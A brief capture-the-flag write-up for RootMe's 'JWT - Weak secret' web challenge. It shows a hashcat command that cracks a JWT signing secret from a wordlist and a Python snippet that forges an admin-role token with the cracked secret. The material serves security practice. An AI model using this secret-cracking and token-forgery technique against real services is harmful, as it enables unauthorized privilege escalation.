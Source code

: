 # JWT weak secret

[RootMe challege: JWT - Weak secret](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret): This API with its /hello endpoint (accessible with GET) seems rather welcoming at first glance but is actually trying to play a trick on you. Recover its most valuable secrets!

----

Argh:

![RootMe JWT weak secret](../../_static/images/rootme-jwt3a.png)

```text
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 16500 jwt jwt.secrets.list
hashcat (v6.2.6) starting
```

![RootMe JWT weak secret](../../_static/images/rootme-jwt3b.png)

```text
# http://challenge01.root-me.org/web-serveur/ch59

import jwt

secret = "secret"
hacked_token = jwt.encode({"role": "admin"}, secret, algorithm="HS512")
print(f"Hacked token:{hacked_token}")
```

## Resources

* [JWT techniques (these writeups)](../jwt/README.md)

